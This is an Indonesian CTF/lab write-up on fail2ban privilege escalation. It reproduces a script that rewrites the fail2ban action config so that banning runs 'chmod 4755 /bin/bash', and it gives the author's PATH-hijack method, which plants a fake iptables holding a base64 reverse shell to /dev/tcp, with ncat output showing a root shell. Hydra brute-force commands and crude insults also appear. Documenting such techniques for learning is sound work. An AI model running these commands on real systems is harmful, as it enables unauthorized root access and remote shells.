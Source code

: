 ```yaml
---
layout: post
title: 'Note: Fail2ban PrivEsc'
date: 2022-12-28
---
```


Nyari sana sini ternyata beberapa blog ini, tidak berguna.

* [Author: Youssef Ichioui](https://youssef-ichioui.medium.com/abusing-fail2ban-misconfiguration-to-escalate-privileges-on-linux-826ad0cdafb7)
* [Title: The Cyber Security Library](https://oklencodes.gitbook.io/untitled/ctfs/biteme-ctf/fail2ban-privilege-escalation)
* [Author: JAY BHATT](https://systemweakness.com/privilege-escalation-with-fail2ban-nopasswd-d3a6ee69db49)
* [Author: rvizx](https://github.com/rvizx/fail2ban)

Bukan untuk menghina atau apa, tetapi saya mencoba semua metode itu yang memang kesannya `plagiarism` tetap tidak bisa ditolerir dan metode mereka semua sampah.
> Yaelah, kayanya lu aja yang lupa ngecek versinya

Matamu tak picek kene.
> Mungkin lu ga liat konfigurasinya aja bro, blablab

Raimu tak geplak kene, asu.

### Analyzing code of Rvizx's script
```sh
#!/usr/bin/bash

# title : fail2ban-privesc
# author : Ravindu Wickramasinghe (@rvizx9)


echo '
+==============================+
|  fail2ban-privesc | @rvizx9  |
+==============================+

'

conf="
[INCLUDES]
before = iptables-common.conf
[Definition]

actionstart = <iptables> -N f2b-<name>
              <iptables> -A f2b-<name> -j <returntype>
              <iptables> -I <chain> -p <protocol> -m multiport --dports <port> -j f2b-<name>

actionstop = <iptables> -D <chain> -p <protocol> -m multiport --dports <port> -j f2b-<name>
             <actionflush>
             <iptables> -X f2b-<name>

actioncheck = <iptables> -n -L <chain> | grep -q 'f2b-<name>[ \t]'
actionban = chmod 4755 /bin/bash
actionunban = <iptables> -D f2b-<name> -s <ip> -j <blocktype>
[Init]
"

rm -rf /etc/fail2ban/action.d/iptables-multiport.conf
echo "$conf" > iptables-multiport.conf
mv iptables-multiport.conf /etc/fail2ban/action.d/
sudo /etc/init.d/fail2ban restart
ip -br -c a

echo "[!] start to bruteforce ssh login."
echo "[run] @attacker : hydra <ip-addr> -l root -P /usr/share/wordlists/rockyou.txt ssh"
echo "[!] bash -p will be executed in 100s"
sleep 100
bash -p
```
Saya jelaskan dulu bagaimana kode ini bekerja dan membuat muak hidup saya hingga 1 jam untuk melihat bahwasanya ini adalah hal konyol. Saya tidak menggunakan script ini untuk dieksekusi, tetapi saya menggunakan ini sebagai shortcut untuk melihat apakah pasti atau tidak.

`conf` itu adalah sebuah variable yang diisi string untuk direplace ke `iptables-multiport.conf`. ya di dalamnya terdapat `actionban` dengan value `chmod 4755 /bin/bash` sebagai command yang di-abuse ke `/bin/bash` untuk mendapatkan `SETUID` dan bisa dielevasi ke `root` menggunakan parameter `-p`.

![image](https://i.postimg.cc/4x4t2ZbP/image.png)
[source](https://chmodcommand.com/chmod-4755/)

lalu perintah `sudo /etc/init.d/fail2ban` adalah relatif tergantung kasus yang ada. Perintah ini digunakan untuk memulai ulang firewall tersebut dan me-reload konfigurasi. Di kasus yang saya temukan itu menggunakan `sudo -l` abusing.

![image](https://i.postimg.cc/6pVjn96h/image.png)

Dalam konfigurasinya di `/etc/fail2ban/jail.conf` terdapat sintaks seperti ini.

![img](https://i.postimg.cc/fW2JWXxc/image.png)

Dan, untuk hal ini kode yang dibuat oleh [@rvizx](https://github.com/rvizx), valid. Kenapa? karena di dalam gambar tersebut ada perintah untuk memanggil `iptables-multiport`. Dan injeksi ke shell dengan `actionban`.

But wait, 
> KENAPA DENGAN SEMUA SHORTCUT BLOG DI ATAS TIDAK BERGUNA?

Yang jelas saya tidak tahu, padahal variable `maxretry` sudah saya isi dengan nilai `1`. 

Loh apa itu? Di dalam konfigurasi tersebut ada kode seperti ini.
```conf
# "bantime" is the number of seconds that a host is banned.
bantime  = 10m

# A host is banned if it has generated "maxretry" during the last "findtime"
# seconds.
findtime  = 10m

# "maxretry" is the number of failures before a host get banned.
maxretry = 1

# "maxmatches" is the number of matches stored in ticket (resolvable via tag <matches> in actions).
maxmatches = %(maxretry)s
```
Nah loh, hasilnya saya menggunakan metode `PATH Hijacking` untuk membuat fake `iptables` ke `/dev/shm` dengan revshell favorit saya.
```
╭─ via [machines/fate]
╰─ echo "/bin/bash -i >& /dev/tcp/192.168.59.1/12345 0>&1" | base64
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNTkuMS8xMjM0NSAwPiYxCg==
```
Ini !
```sh
john@fate:/dev/shm$ echo "echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNTkuMS8xMjM0NSAwPiYxCg== | base64 -d | bash" > /dev/shm/iptables
john@fate:/dev/shm$ chmod +x iptables
john@fate:/dev/shm$ export PATH=$(pwd):$PATH
john@fate:/dev/shm$ sudo -u root systemctl restart fail2ban
```
Lalu, login dengan ssh dan buatlah kalau itu gagal. Lalu nyalakan *network utility which reads and writes data across networks*, aka `ncat`.
Dan boom!
```
╭─ via [machines/fate]
╰─ ncat -nvlp 12345
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::12345
Ncat: Listening on 0.0.0.0:12345
Ncat: Connection from 192.168.59.15.
Ncat: Connection from 192.168.59.15:56780.
bash: no se puede establecer el grupo de proceso de terminal (27981): Función ioctl no apropiada para el dispositivo
bash: no hay control de trabajos en este shell
root@fate:/# id
id
uid=0(root) gid=0(root) grupos=0(root)
root@fate:/# cd
```
